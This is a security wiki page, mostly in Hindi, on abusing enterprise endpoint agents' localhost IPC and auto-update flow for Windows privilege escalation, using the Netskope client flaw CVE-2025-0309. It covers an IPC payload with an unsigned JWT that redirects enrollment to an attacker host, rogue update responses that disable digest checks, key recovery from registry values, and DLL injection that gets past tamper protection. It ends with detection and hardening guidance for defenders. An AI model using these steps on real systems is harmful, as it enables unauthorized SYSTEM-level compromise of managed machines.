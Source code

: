 # एंटरप्राइज ऑटो-अपडेटर्स और प्रिविलेज्ड IPC का दुरुपयोग (e.g., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

यह पृष्ठ उन विंडोज़ लोकल privilege escalation चेन का सामान्यीकरण करता है जो एंटरप्राइज endpoint agents और updaters में पाए जाते हैं और जो एक कम-रुकावट वाली localhost IPC सतह और एक प्रिविलेज्ड अपडेट फ्लो को एक्सपोज़ करते हैं। एक प्रतिनिधि उदाहरण Netskope Client for Windows < R129 (CVE-2025-0309) है, जहाँ एक कम-प्रिविलेज उपयोगकर्ता enrollment को एक attacker‑controlled सर्वर की ओर मजबूर कर सकता है और फिर एक malicious MSI भेज सकता है जिसे SYSTEM सेवा इंस्टॉल कर देती है।

मुख्य विचार जो आप समान उत्पादों के खिलाफ पुन: उपयोग कर सकते हैं:
- एक प्रिविलेज्ड सेवा के localhost IPC का दुरुपयोग करके पुनः-नियोजन या पुन: कॉन्फ़िगरेशन को एक attacker सर्वर की ओर मजबूर करें।
- वेंडर के update endpoints को इम्प्लीमेंट करें, एक rogue Trusted Root CA डिलीवर करें, और updater को एक malicious, “signed” package की ओर इंगित करें।
- कमजोर signer checks (CN allow‑lists), optional digest flags, और ढीली MSI properties से बचें।
- यदि IPC “encrypted” है, तो registry में संग्रहित world‑readable machine identifiers से key/IV निकालेँ।
- यदि सेवा callers को image path/process name द्वारा प्रतिबंधित करती है, तो किसी allow‑listed process में inject करें या एक suspended process spawn करें और minimal thread‑context patch के जरिए अपनी DLL bootstrap करें।

---
## 1) localhost IPC के जरिए attacker सर्वर की ओर enrollment मजबूर करना

कई agents एक user‑mode UI process के साथ आते हैं जो localhost TCP पर JSON का उपयोग करके SYSTEM सेवा से बात करती है।

Netskope में देखा गया:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Exploit flow:
1) एक JWT enrollment token बनाएं जिनके claims backend host (उदा., AddonUrl) को नियंत्रित करते हों। alg=None का उपयोग करें ताकि किसी signature की आवश्यकता न हो।
2) provisioning कमांड को invoke करते हुए अपना JWT और tenant name के साथ IPC message भेजें:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) सेवा आपके rogue server पर enrollment/config के लिए हिट करना शुरू कर देती है, उदाहरण के लिए:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

नोट:
- यदि caller verification path/name‑based है, तो अनुरोध allow‑listed vendor binary से originate करें (देखें §4).

---
## 2) Hijacking the update channel to run code as SYSTEM

एक बार client आपके server से बात करे, तो अपेक्षित endpoints को implement करें और इसे attacker MSI की ओर steer करें। सामान्य अनुक्रम:

1) /v2/config/org/clientconfig → JSON config लौटाएँ जिसमें updater interval बहुत छोटा हो, उदा.:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Return a PEM CA certificate. The service installs it into the Local Machine Trusted Root store.
3) /v2/checkupdate → Supply metadata pointing to a malicious MSI and a fake version.

Bypassing common checks seen in the wild:
- Signer CN allow‑list: service केवल यह जाँचना कर सकता है कि Subject CN “netSkope Inc” या “Netskope, Inc.” के बराबर है। आपका rogue CA उस CN के साथ एक leaf जारी कर सकता है और MSI पर साइन कर सकता है।
- CERT_DIGEST property: एक benign MSI property जिसका नाम CERT_DIGEST है शामिल करें। इंस्टॉल के समय कोई प्रवर्तन नहीं होता।
- Optional digest enforcement: config flag (e.g., check_msi_digest=false) अतिरिक्त cryptographic validation को अक्षम कर देता है।

Result: SYSTEM सर्विस आपके MSI को
C:\ProgramData\Netskope\stAgent\data\*.msi
से इंस्टॉल कर देती है, और arbitrary code NT AUTHORITY\SYSTEM के रूप में execute होता है।

---
## 3) Forging encrypted IPC requests (when present)

R127 से, Netskope ने IPC JSON को encryptData फील्ड में लपेटा जो Base64 जैसा दिखता था। रिवर्सिंग से पता चला कि AES key/IV registry मानों से व्युत्पन्न थे जिन्हें किसी भी user द्वारा पढ़ा जा सकता है:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Attackers उस encryption को reproduce कर सकते हैं और एक standard user से वैध encrypted commands भेज सकते हैं। सामान्य सुझाव: अगर कोई agent अचानक अपने IPC को “encrypt” करता है, तो HKLM के तहत device IDs, product GUIDs, install IDs जैसे मटेरियल की तलाश करें।

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

कुछ services peer को authenticate करने के लिए TCP connection का PID resolve करते हैं और image path/name की तुलना Program Files के तहत स्थित allow‑listed vendor binaries (e.g., stagentui.exe, bwansvc.exe, epdlp.exe) के साथ करते हैं।

Two practical bypasses:
- एक allow‑listed process (e.g., nsdiag.exe) में DLL injection और उसके अंदर से IPC को proxy करना।
- एक allow‑listed binary को suspended स्थिति में spawn करें और CreateRemoteThread का उपयोग किए बिना अपना proxy DLL bootstrap करें (see §5) ताकि driver‑enforced tamper नियमों को संतुष्ट किया जा सके।

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Products अक्सर एक minifilter/OB callbacks driver (e.g., Stadrv) के साथ भेजे जाते हैं जो protected processes के handles से खतरनाक अधिकार हटा देते हैं:
- Process: removes PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: restricts to THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

एक विश्वसनीय user‑mode loader जो इन सीमाओं का सम्मान करता है:
1) CreateProcess के साथ vendor binary को CREATE_SUSPENDED में बनाएँ।
2) उन handles को प्राप्त करें जिनका उपयोग अभी भी आपको करने की अनुमति है: process पर PROCESS_VM_WRITE | PROCESS_VM_OPERATION, और एक thread handle THREAD_GET_CONTEXT/THREAD_SET_CONTEXT के साथ (या यदि आप किसी ज्ञात RIP पर कोड patch करते हैं तो केवल THREAD_RESUME)।
3) ntdll!NtContinue (या कोई अन्य early, guaranteed‑mapped thunk) को एक छोटा सा stub से overwrite करें जो आपके DLL path पर LoadLibraryW को कॉल करता है, फिर वापस jump करता है।
4) ResumeThread करके आपके stub को इन‑प्रोसेस ट्रिगर करें, और आपका DLL लोड होगा।

क्योंकि आपने पहले से‑protected process पर PROCESS_CREATE_THREAD या PROCESS_SUSPEND_RESUME का उपयोग नहीं किया (आपने उसे बनाया), ड्राइवर की नीति संतुष्ट रहती है।

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) एक rogue CA, malicious MSI signing को automate करता है, और आवश्यक endpoints सर्व करता है: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate।
- UpSkope एक custom IPC client है जो arbitrary (optionally AES‑encrypted) IPC messages बनाता है और suspended‑process injection शामिल करता है ताकि यह allow‑listed binary से originate करे।

---
## 7) Detection opportunities (blue team)
- Local Machine Trusted Root में additions की निगरानी करें। Sysmon + registry‑mod eventing (see SpecterOps guidance) प्रभावी हैं।
- Agent की service द्वारा paths जैसे C:\ProgramData\<vendor>\<agent>\data\*.msi से शुरू की गई MSI executions को flag करें।
- अनपेक्षित enrollment hosts/tenants के लिए agent logs की समीक्षा करें, जैसे: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – addonUrl / tenant anomalies और provisioning msg 148 देखें।
- उन localhost IPC clients पर alert करें जो अपेक्षित signed binaries नहीं हैं, या जो असामान्य child process trees से originate होते हैं।

---
## Hardening tips for vendors
- Enrollment/update hosts को एक सख्त allow‑list पर बांधें; clientcode में untrusted domains को reject करें।
- Image path/name checks की बजाय IPC peers को OS primitives (ALPC security, named‑pipe SIDs) से authenticate करें।
- Secret material को world‑readable HKLM से बाहर रखें; अगर IPC को encrypted होना ही है, तो keys को protected secrets से derive करें या authenticated channels पर negotiate करें।
- Updater को supply‑chain surface के रूप में मानें: अपने नियंत्रण में एक trusted CA तक पूरी chain आवश्यक करें, package signatures को pinned keys के खिलाफ verify करें, और यदि validation config में disabled है तो fail closed करें।

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}

